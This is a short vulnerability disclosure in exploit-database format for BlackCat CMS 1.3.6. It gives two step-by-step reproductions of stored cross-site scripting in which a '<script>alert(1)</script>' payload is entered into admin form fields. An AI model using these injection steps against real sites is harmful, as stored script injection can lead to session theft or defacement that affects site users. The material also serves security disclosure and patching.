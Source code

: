 EXP
---

    # Exploit Title: BlackCat CMS 1.3.6 - 'Multiple' Stored Cross-Site Scripting (XSS)
    # Date: 04/07/2021
    # Exploit Author: Ömer Hasan Durmuş
    # Vendor Homepage: https://blackcat-cms.org/
    # Software Link: https://blackcat-cms.org/page/download.php
    # Version: BlackCat CMS - 1.3.6

    Step 1 : Login to admin account in http://TARGET/backend/start/index.php
    Step 2 : Then click on the "Addons"
    Step 3 : Click on "Create new"
    Step 4 : Input "<script>alert(1)</script>" in the field "Module / language name"
    Step 5 : Update or visit new page.

    Step 1 : Login to admin account in http://TARGET/backend/start/index.php
    Step 2 : Then click on the "Access"
    Step 3 : Click on "Manage groups"
    Step 4 : Input "<script>alert(1)</script>" in the field "Group name" and click "Add group"
    Step 5 : Update or visit new page.
